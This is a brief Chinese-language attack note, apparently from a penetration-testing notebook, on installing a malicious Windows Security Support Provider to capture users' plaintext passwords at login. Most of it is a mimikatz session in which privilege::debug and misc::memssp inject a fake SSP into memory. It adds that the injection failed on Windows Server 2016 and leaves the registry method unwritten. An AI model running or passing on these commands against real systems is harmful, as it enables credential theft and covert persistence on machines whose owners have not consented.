 可以自己写一个SSP，恶意SSP在系统登录的时候，获取到用户输入的明文密码

# 一、mimikatz 注入伪造的SSP
## 1、内存注入SSP
```plain
C:\Users\Administrator.SEC\Desktop\x64>mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # misc::memssp
Injected =)

mimikatz # exit
Bye!

C:\Users\Administrator.SEC\Desktop\x64>
```

![](../images/457ade4e01d93ae8f2cf39611d43c219.png)

WIndows Server 2016失败

## 2、注册表添加SSP
略